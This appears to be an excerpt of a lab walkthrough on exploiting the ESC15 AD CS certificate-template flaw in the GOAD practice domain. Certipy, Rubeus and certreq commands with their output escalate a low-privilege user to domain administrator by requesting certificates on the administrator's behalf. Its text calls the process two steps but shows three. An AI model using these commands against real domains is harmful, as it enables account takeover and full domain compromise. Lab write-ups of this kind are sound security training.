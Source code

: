 ### Vulnerability Conditions

1. **Version 1 certificate template** (schema version = 1)
2. **Template allows "Supply in the Request"** subject specification
3. **Principal has enrollment rights** on the template

### Exploitation Process

**Important:** The reference GOAD article shows ESC15 exploitation as a **two-step process** using Certificate Request Agent capabilities:

```bash
# Step 1: Request certificate with Certificate Request Agent application policy
certipy req -u missandei@essos.local -p fr3edom --application-policies "1.3.6.1.4.1.311.20.2.1" -ca ESSOS-CA -template WebServer -dc-ip 192.168.56.12 -target braavos.essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] Template                : WebServer (vulnerable version 1)
[*] Application Policy      : Certificate Request Agent (1.3.6.1.4.1.311.20.2.1)

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 19

# Step 2: Use Certificate Request Agent certificate to request admin certificate on-behalf-of
certipy req -u missandei@essos.local -on-behalf-of essos\\administrator -template User -ca ESSOS-CA -pfx missandei.pfx -dc-ip 192.168.56.12 -target braavos.essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] Template                : User
[*] On behalf of            : essos\administrator
[*] Using Certificate Request Agent certificate

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 20

# Step 3: Authenticate as administrator

Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:mimikatz

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=administrator, CN=Users, DC=essos, DC=local
[+] TGT request successful!
```

**Alternative Method (Direct Application Policy Override):**

ESC15 Exploitation Example - Method 1: Using certreq with custom INF file:

```bash
$infContent = @"
[NewRequest]
Subject = "CN=missandei,CN=Users,DC=essos,DC=local"
KeyLength = 2048
KeyAlgorithm = RSA
MachineKeySet = FALSE
RequestType = PKCS10
CertificateTemplate = WebServer

[Extensions]
1.3.6.1.4.1.311.21.10 = "{text}1.3.6.1.5.5.7.3.2"
2.5.29.17 = "{text}upn=administrator@essos.local"
"@
```